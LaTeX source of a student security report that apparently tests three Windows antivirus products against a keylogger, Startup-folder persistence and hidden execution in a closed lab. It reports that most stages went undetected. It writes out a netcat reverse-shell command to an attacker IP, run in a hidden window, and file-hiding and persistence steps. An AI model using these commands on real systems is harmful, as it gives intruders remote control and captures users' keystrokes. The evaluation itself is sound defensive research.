	\documentclass[11pt]{article}
%% Packages:
\usepackage{amsmath}
\usepackage[document]{ragged2e}
\usepackage{titlesec}
\usepackage{float}
\usepackage{graphicx}
\usepackage{caption}
\usepackage{subcaption}
\usepackage[dvipsnames]{xcolor}
\usepackage[T1]{fontenc}
\usepackage{helvet}
\usepackage[hidelinks]{hyperref}
\usepackage{amssymb}
\usepackage{enumitem}
\usepackage{comment}
\usepackage{soul}
\usepackage[margin=1in]{geometry} % Set margins to 1 inch
\usepackage{setspace}
\usepackage{graphicx} % For including images
\usepackage{subcaption} % For creating subfigures
\usepackage{float} % For the [H] placement specifier
\usepackage{xcolor}
\usepackage{hyperref} % For clickable links, ToC, etc.
\usepackage{amsmath} % For math equations
\usepackage{amsfonts} % For math fonts
\usepackage{amssymb} % For math symbols
\usepackage{listings} % For code listings
\usepackage{enumitem} % For custom lists
\usepackage{booktabs} % For professional tables
\usepackage{longtable} % For tables that span multiple pages
\usepackage{array} % For more advanced table column formatting
\usepackage{fancyhdr} % For custom headers and footers
\usepackage{lastpage} % To get the total number of pages
\usepackage{csquotes} % Context sensitive quotation facilities
\usepackage{tabularx} % For tables with fixed width
\usepackage{colortbl} % For colored table cells
\usepackage{soul} % For highlighting text (use with caution)
\usepackage{tikz} % For drawing graphics directly in LaTeX
\usepackage{indentfirst}
%% Personalized adjustements: 

% Math operator:
\DeclareMathOperator{\sech}{sech}

% VUB colors: 
\definecolor{orange}{RGB}{234, 82, 0} 
\definecolor{blue}{RGB}{26, 55, 101}

% Margins:
\addtolength{\skip\footins}{0.3 cm}
\renewcommand*\footnoterule{}

% Adjustement of section, subsection & subsubsection: 

\titleformat{\section}[block]
{\normalfont\Large\bfseries \fontfamily{phv}\selectfont \color{orange}}
{\thesection}{0.5cm}{}

\titleformat{\subsection}[block]
{\normalfont\large\bfseries \fontfamily{phv}\selectfont \color{blue}}
{\thesubsection}{0.5cm}{}

\titleformat{\subsubsection}[block]
{\normalfont\small\bfseries \fontfamily{phv}\selectfont \color{blue}}
{\thesubsubsection}{0.5cm}{}
\usepackage{setspace}
\usepackage{graphicx}    % For including images
\usepackage{subcaption}  % For creating subfigures
\usepackage{float}       % For the [H] placement specifier
\usepackage{xcolor}
\setlength{\parskip}{0pt}
\setcounter{secnumdepth}{2}

\onehalfspacing

\begin{document}
	\justifying
	\begin{titlepage}
	\begin{center}
            \begin{figure}
                \centering
                
\includegraphics[scale=0.3]{Images/logo.png}
            \end{figure}
		\vspace*{\fill}
            \normalsize
            {\fontfamily{phv}\selectfont
            \textcolor{blue}{\textbf{ELEC-H404}}}\\
            \vspace{0.2cm}
		\Huge
            {\fontfamily{phv}\selectfont
            \textcolor{orange}{Advanced Security Evasion in Windows}}\\
        \end{center}
	\begin{center}	
		\vspace{0.5cm}
            \Large
            {\fontfamily{phv}\selectfont
		\textcolor{blue}{\textbf{Andranik Voskanyan\\
								Cédric Sipakam\\
								Zinar Mutlu}}}\\
	\end{center}
        \vspace*{\fill}
        \begin{FlushRight}
            {\fontfamily{phv}\selectfont
            \textcolor{orange}{Professor}}\\
            {\fontfamily{phv}\selectfont
            \textcolor{blue}{Bruno Da Silva}}\\
            \vspace{0.6cm}
%            {\fontfamily{phv}\selectfont
%            \textcolor{orange}{Teaching Assistants}}\\
%            {\fontfamily{phv}\selectfont
%            \textcolor{blue}{
%                Lucas Stefanidis\\
%                Navid Ladner 
%            }}\\
%            \vspace{0.6cm}
            {\fontfamily{phv}\selectfont
            \textcolor{orange}{Academic Year}}\\
            {\fontfamily{phv}\selectfont
            \textcolor{blue}{2024 - 2025}}\\
            \vspace{0.6cm}
            {\fontfamily{phv}\selectfont
            \textcolor{orange}{Faculty}}\\
            {\fontfamily{phv}\selectfont
            \textcolor{blue}{Electrical Engineering}}
        \end{FlushRight}



\end{titlepage}
	\tableofcontents
	\newpage
	\listoffigures
	\newpage
	
	\begin{abstract}
		This project investigates the efficacy of Windows security solutions, primarily focusing on Windows Defender, Kaspersky, and Bitdefender, in detecting and responding to advanced stealthy attack techniques. The study evaluates common attacker methodologies including keylogger deployment, backdoor creation for remote access, non-visual command execution using built-in system tools, and persistence mechanisms designed to maintain unauthorized access. The evaluation involved executing these attack scenarios in a controlled environment while meticulously logging system behavior, network activity, and Windows event logs to analyze the detection capabilities and responses of the security software.
	\end{abstract}
	
	\newpage
	\section{Introduction}
	\subsection{Problem Statement and Motivation}
	The landscape of cyber threats is constantly evolving, with attackers developing increasingly sophisticated techniques to evade detection by security systems. Detecting these stealthy attacks presents a significant challenge for individuals and organizations alike. Understanding the methods attackers use to bypass security measures is crucial for defenders to improve their strategies, tools, and overall security posture. This project aims to shed light on these evasion techniques within the Windows operating system, a prevalent target for cyber-attacks.
	
	\subsection{Project Aims and Objectives}
	The primary aims of this project are:
	\begin{itemize}
		\item To evaluate the detection capabilities of Windows Defender, Kaspersky, and Bitdefender against specific attacker techniques, including:
		\begin{itemize}
			\item Keylogger deployment
			\item Backdoor creation and remote access
			\item Non-visual command execution and process hiding
			\item Persistence techniques
		\end{itemize}
		\item To analyze system behavior, network activity, and event logs during these simulated attacks to understand security solution responses and generated artifacts.
		\item To assess the effectiveness of various evasion methods employed by attackers.
	\end{itemize}
	
	\subsection{Scope of the project}
	This project focuses on:
	\begin{itemize}
		\item \textbf{Operating System:} Windows 11 Home
		\item \textbf{Security Solutions:} Windows Defender, Kaspersky, Bitdefender
		\item \textbf{Attacker Tools:} A combination of publicly available tools: Microsoft Windows Command Prompt, Netcat/Nmap, Python.
		\item \textbf{Exclusions:} This study does not cover all possible evasion techniques or every security product available. The focus remains on the selected methods and tools.
	\end{itemize}
	
	
	
	\section{Background}
	\subsection{Fundamentals of Security Evasion}
	Security evasion encompasses techniques and strategies attackers use to avoid detection by mechanisms like antivirus software, Endpoint Detection and Response (EDR) solutions, Intrusion Detection/Prevention Systems (IDS/IPS), and firewalls. The primary goal is to allow malicious activities to proceed unnoticed, enabling attackers to achieve objectives such as data theft, espionage, system disruption, or financial gain. Common motivations include maintaining stealth for long-term access (persistence), escalating privileges for deeper system control, and exfiltrating sensitive information without triggering alarms.
	
	\subsection{Overview of Windows Security Architecture}
	The Windows Operating System incorporates a multi-layered security architecture designed to protect against various threats. Key components include:
	\begin{itemize}
		\item \textbf{Windows Defender Antivirus:} The built-in anti-malware solution featuring real-time scanning, behavior monitoring, Anti-malware Scan Interface (AMSI), cloud-delivered protection, Network Inspection System (NIS), and Controlled Folder Access.
		\item \textbf{Windows Event Logging:} Records system, security, application, PowerShell, and other events. Specific event IDs can indicate suspicious activities, login attempts, process creation, and security policy changes.
		\item \textbf{User Account Control (UAC):} Helps prevent unauthorized system changes by requiring permission or administrator credentials for actions affecting system operation or security.
		\item \textbf{Windows Firewall:} Controls inbound and outbound network traffic based on configured rules.
		\item \textbf{BitLocker Drive Encryption:} Provides full-disk encryption to protect data at rest.
		\item \textbf{AppLocker/Windows Defender Application Control (WDAC):} Allows administrators to control which applications and files users can run.
	\end{itemize}
	
	\begin{figure}[H]
		\centering
		
\includegraphics[width=\linewidth]{Pictures/windowssecuritylayer}
		\caption{Components of the Windows Security Architecture}
		\label{fig:windowssecuritylayer}
	\end{figure}
	
	
	\subsection{Theoretical Overview of Attacker Techniques Investigated}
	\subsubsection{Keyloggers}
	A keylogger is surveillance software or hardware recording every keystroke made on a computer, potentially capturing sensitive information like login credentials, credit card numbers, and personal messages. This project focuses on software-based keyloggers, exemplified by the \texttt{keylog.py} script.
	Common \textbf{Indicators of Compromise (IOCs)} include:
	\begin{itemize}
		\item Unusual network traffic (if logs are sent remotely).
		\item Unexpected new processes or files (often hidden).
		\item Performance degradation (less common with efficient keyloggers).
		\item Anti-keylogger software alerts.
	\end{itemize}
	
	\subsubsection{Backdoors and Remote Access}
	A backdoor is a covert method for bypassing normal authentication or encryption, allowing unauthorized remote access. This enables attackers to control the compromised machine, exfiltrate data, or pivot to further attacks. Backdoors can be established via vulnerabilities, malware installation, or misuse of legitimate remote administration tools.
	A common method is the \textbf{Reverse Shell}, where the compromised machine initiates an outbound connection to an attacker-controlled server, often bypassing firewalls restricting inbound connections. The command \texttt{'ncat 172.20.10.15 12345 -e cmd.exe'} within the project's \texttt{'commands.bat'} script attempts this by creating a TCP/IP connection from the victim to the attacker's IP via a specified port. Another method is the \textbf{Bind Shell}, where the victim machine listens on a port for the attacker to connect.
	\textbf{Indicators of Compromise} include unexpected network connections (especially to unusual IPs or ports), unexplained system behavior, or new user accounts.
	
	\subsubsection{Non-Visual Command Execution and Process Hiding}
	Attackers often execute commands without alerting users or security software. Common methods include:
	\begin{itemize}
		\item \textbf{PowerShell:} A powerful shell and scripting language. Attackers leverage techniques like \textbf{Fileless Execution}, running commands or scripts directly in memory without writing to disk.
		\item \textbf{Living Off The Land Binaries and Scripts (LOLBAS):} Using legitimate, pre-installed system tools (\texttt{cmd.exe}, \texttt{powershell.exe}, \texttt{rundll32.exe}, \texttt{certutil.exe}, etc.) for malicious actions to blend with normal activity. In this study, \texttt{'start /min cmd /c'} in \texttt{'cmd\_commands.bat'} attempts to run commands in a hidden window.
		\item \textbf{Process Hiding Techniques:} Methods like running processes with hidden windows (\texttt{'start /min'}), process Doppelganging, or rootkit-like methods conceal malicious processes. The command \texttt{'attrib +h'} in \texttt{'cmd\_commands.bat'} is used for file hiding.
	\end{itemize}
	
	\subsubsection{Persistence Techniques}
	Persistence refers to methods attackers use to maintain access across reboots or other interruptions, allowing prolonged malicious activity. Common techniques include:
	\begin{itemize}
		\item \textbf{Startup Locations:} Placing malicious executables or scripts in Windows Startup folders (the method used in this study).
		\item \textbf{Registry Run Keys:} Adding entries to \texttt{'Run'} or \texttt{'RunOnce'} registry keys.
		\item \textbf{Scheduled tasks:} Creating tasks executing malicious code at specified times or triggers.
		\item \textbf{Windows Services:} Creating or modifying services to run malicious programs.
		\item \textbf{DLL Hijacking:} Exploiting application DLL loading mechanisms.
		\item \textbf{WMI Event Subscriptions:} Using Windows Management Instrumentation (WMI) to trigger malicious actions based on system events.
	\end{itemize}
	
	
	
	\section{Description}
	This section details the test environment setup, security solution configurations, step-by-step implementation of attacker techniques, and the monitoring and data collection strategy.
	
	\subsection{Test Environment Setup}
	The attacker machine runs Kali Linux, while the victim machine uses Windows 11 Home. Both are connected on the same subnet via a closed Local Area Network (Mobile Hotspot). The attacker primarily utilizes Netcat, Windows Command Prompt, and Python.
	\begin{figure}[H]
		\centering
		
\includegraphics[width=1\linewidth]{Pictures/test_lab_env}
		\caption{Lab Environment}
		\label{fig:testlabenv}
	\end{figure}
	
	
	\subsection{Implementation of Attacker Techniques}
	\subsubsection{Step 1 - Non Visual Command Execution and Process Hiding}
	The command \texttt{'start /min cmd /c'} within \texttt{'cmd\_commands.bat'} was used to execute subsequent commands via \texttt{'cmd.exe'} in a hidden window, testing detection of such operations.
	
	\subsubsection{Step 2 - Remote Access}
	The objective was to establish a reverse shell from the victim to the attacker using Netcat (\texttt{ncat.exe}, part of Nmap installed via WinGet by \texttt{cmd\_commands.bat}) and assess detection by security tools.
	\textbf{Execution Procedure:}
	\begin{enumerate}
		\item On the attacker machine, a Netcat listener was started: \texttt{'nc -lvnp 12345'}.
		\item On the victim machine, \texttt{'cmd\_commands.bat'} was executed.
		\item The batch script attempted silent Nmap installation (if needed) and then initiated the reverse shell connection to the attacker's IP (\texttt{172.20.10.15}) on port \texttt{12345} using \texttt{'start /min cmd /c "ncat 172.20.10.15 12345 -e cmd.exe"'}.
		\item Success resulted in a command prompt session from the victim appearing on the attacker's listener.
		\item Commands were then executed remotely on the victim machine via the established shell.
	\end{enumerate}
	
	\subsubsection{Step 3 - Keylogger Deployment}
	A Python-based keylogger (\texttt{keylog.py}, using \texttt{pynput} to save keystrokes to \texttt{key.txt}) was deployed to assess detection. The \texttt{cmd\_commands.bat} script automated parts of this, including copying \texttt{keylog.py} to the Startup folder for persistence and hiding the script file.
	
	\subsubsection{Step 4 - Backdoor Creation and  Persistence}
	To establish persistence via the Startup folder and evaluate detection, the \texttt{cmd\_commands.bat} script copied itself into the Startup folder.
	
	
	
	\subsection{Monitoring and Data Collection Strategy}
	
	\subsubsection{System-Level Logs}
	\begin{itemize}
		\item \textbf{Windows Event Logs (Event Viewer):} Monitored Security Log for specific events (logon event 4672).
		\item \textbf{Process Monitoring (Process Monitor - ProcMon):} Run during attacks with filters for relevant processes (security software, malicious executables) capturing activity, CPU, and RAM usage for analysis.
	\end{itemize}
	
	\subsubsection{Network Traffic Analysis}
	\begin{itemize}
		\item \textbf{Wireshark/tcpdump:} Captured network traffic on the victim machine, filtering for attacker IP, suspicious ports, or C2 domains. PCAP files were saved for analyzing backdoor connections or data exfiltration.
	\end{itemize}
	
	\subsubsection{Performance Logging}
	\begin{itemize}
		\item \textbf{Process Monitor:} Used to monitor CPU and memory usage of security processes (\texttt{MsMpEng.exe}) before, during, and after attack scenarios to assess resource impact.
		\item \textbf{Task Manager/Resource Monitor:} Used for manual observation of system performance.
	\end{itemize}

	
	\section{Experimental Results After The Whole Hacking Process}
	\color{black} %Color removed
	This section presents the findings, detailing detection status, log evidence, and performance observations for several security solutions. The tests involved a five-stage attack chain: Batch Loader Execution (\texttt{cmd\_commands.bat}), Tool Downloads (curl, winget, ncat), Keylogger Deployment (\texttt{keylog.py}), Persistence via Startup folder, and Reverse Shell (C2) using ncat.
	
	\subsection{Detection by Security Solutions}
	\begin{itemize}
		\item \textbf{Windows Defender:}
		\begin{itemize}
			\item Showed early detection capability via Windows Defender warning for the unknown batch loader, but required user interaction ("Run anyway") to bypass.
			\item Failed to detect subsequent stages, including the active keylogger, Startup folder persistence, and the established ncat reverse shell, once the initial warning was bypassed.
		\end{itemize}
		\begin{figure}[H]
			\centering
			\includegraphics[width=\linewidth]{"Pictures/Final Pictures/warning"}
			\caption{Windows Defender Detection and Warning}
			\label{fig:warning}
		\end{figure}
		
		
		\item \textbf{Kaspersky:}
		\begin{itemize}
			\item Generated zero alerts across all five attack stages.
			\item This lack of detection occurred despite Kaspersky using the highest RAM during tests (approx. 311.51 MB).
		\end{itemize}
		\item \textbf{Bitdefender:}
		\begin{itemize}
			\item Also failed to detect any malicious activities across all stages, despite active payloads and moderate RAM usage.
		\end{itemize}
	\end{itemize}
	
	\subsection{Log Evidence and System Artifacts}
	\begin{itemize}
		\item \textbf{Event Logs:}
		\begin{itemize}
			\item Windows Event Log ID 4672 (Special privileges assigned to new logon) was observed, indicating processes launched (potentially by the batch script) gained significant access, useful for analysis but not an explicit OS malware detection.
		\end{itemize}
		\item \textbf{Network Traffic (Wireshark):}
		\begin{itemize}
			\item Successfully captured TCP packets for the ncat reverse shell, confirming the active C2 channel between the victim (192.168.129.8) and attacker (192.168.129.17) on port 12345. (See Figures \ref{fig:ncatlistenerattacker} and \ref{fig:wiresharktraffic}).
		\end{itemize}
		\item \textbf{File System Artifacts:}
		\begin{itemize}
			\item The \texttt{keylog.py} and \texttt{cmd\_commands.bat} scripts were successfully copied to the Startup folder for persistence and remained undetected by the tested AV solutions. (See Figure \ref{fig:startupfolder}).
			\item The keylogger successfully created its output file (\texttt{key.txt}) and captured keystrokes.
		\end{itemize}
		\item \textbf{Attacker's View:}
		\begin{itemize}
			\item The attacker received the reverse shell connection, enabling remote command execution (\texttt{dir}) on the victim machine, demonstrating control. (See Figure \ref{fig:attackeraccessvictim}).
		\end{itemize}
	\end{itemize}
	
	\begin{figure}[H]
		\centering
		\begin{subfigure}{0.48\linewidth}
			\centering
			
\includegraphics[width=\linewidth]{Pictures/ncat_listener_attacker.png} % Placeholder for slide 12/13 image
			\caption{Attacker's ncat listener showing connection from victim.}
			\label{fig:ncatlistenerattacker}
		\end{subfigure}
		\hfill
		\begin{subfigure}{0.48\linewidth}
			\centering
			
\includegraphics[width=\linewidth]{Pictures/attacker_access_victim.png} % Placeholder for slide 13 image
			\caption{Attacker accessing victim's file system via reverse shell.}
			\label{fig:attackeraccessvictim}
		\end{subfigure}
		\caption{View from the Attacker's Device.}
	\end{figure}
	
	\begin{figure}[H]
		\centering
		
\includegraphics[width=0.8\linewidth]{Pictures/startup_folder_victim.png} % Placeholder for slide 14 image
		\caption{Malicious files (cmd\_commands.bat, keylog.py) in the victim's Startup folder for persistence.}
		\label{fig:startupfolder}
	\end{figure}
	
	\begin{figure}[H]
		\centering
		
\includegraphics[width=\linewidth]{Pictures/wireshark_traffic.png} % Placeholder for slide 19 image (wireshark cut.png)
		\caption{Wireshark capture showing TCP packets of the reverse shell.}
		\label{fig:wiresharktraffic}
	\end{figure}
	
	\subsection{Performance Impact of Security Solutions}
	Resource usage was monitored while all payloads were active.
	\begin{itemize}
		\item \textbf{Windows Security (Defender):} Exhibited relatively low resource usage \\
		(\texttt{SecurityHealthSystray.exe} minimal CPU, ~5MB RAM). (See Figure \ref{fig:perf_winsec})
		\item \textbf{Kaspersky:} Showed the most significant resource consumption, particularly RAM (associated process \texttt{259cf41b.exe} used ~311.51 MB Private Bytes, CPU ~5-6\%). (See Figure \ref{fig:perf_kaspersky})
		\item \textbf{Bitdefender:} Consumed moderate RAM (\texttt{bdagent.exe} ~48MB Private Bytes) with low CPU usage. (See Figure \ref{fig:perf_bitdefender})
	\end{itemize}
	These readings reflect the cumulative cost during stealth persistence and live C2 access.
	
	\begin{figure}[H]
		\centering
		\begin{subfigure}{0.48\linewidth}
			\centering
			
\includegraphics[width=\linewidth]{Pictures/perf_winsecurity.png} % Placeholder for winsecurityhealthsystrai.png
			\caption{Windows Security Performance.}
			\label{fig:perf_winsec}
		\end{subfigure}
		\hfill
		\begin{subfigure}{0.48\linewidth}
			\centering
			
\includegraphics[width=\linewidth]{Pictures/perf_kaspersky.png} % Placeholder for kasperski.png
			\caption{Kaspersky Performance.}
			\label{fig:perf_kaspersky}
		\end{subfigure}
		\vspace{1em}
		\begin{subfigure}{\linewidth}
			\centering
